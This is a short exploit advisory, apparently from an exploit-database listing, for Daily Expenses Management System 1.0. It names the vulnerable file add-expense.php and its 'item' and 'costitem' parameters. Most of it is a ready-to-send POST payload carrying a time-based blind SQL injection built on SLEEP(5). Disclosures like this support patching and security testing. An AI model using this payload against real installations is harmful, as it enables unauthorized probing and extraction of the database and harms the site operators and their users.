 # Exploit Title: Daily Expenses Management System 1.0 - 'item' SQL Injection (Time-based blind)
- **Date:** 12-03-2024
- **Exploit Author:** Ayush Patidar
- **Vendor Homepage:** [https://phpgurukul.com/](https://phpgurukul.com/)
- **Software Link:** [https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/](https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/)
- **Version:** 1.0
- **Tested on:** Windows & Xampp

---

## Feature: Add Expenses
- **Vulnerable file:** add-expense.php
- **Vulnerable parameters:**
	- item
	- costitem

---

## PoC
- **URL:** [http://example.com/dets/add-expense.php](http://example.com/dets/add-expense.php)
- **Method:** POST

---

## Payload
```http
dateexpense=1337-11-11&item=1' AND (SELECT 8429 FROM (SELECT(SLEEP(5)))IWeV) AND 'hmPP'='hmPP&costitem=2&submit=
```
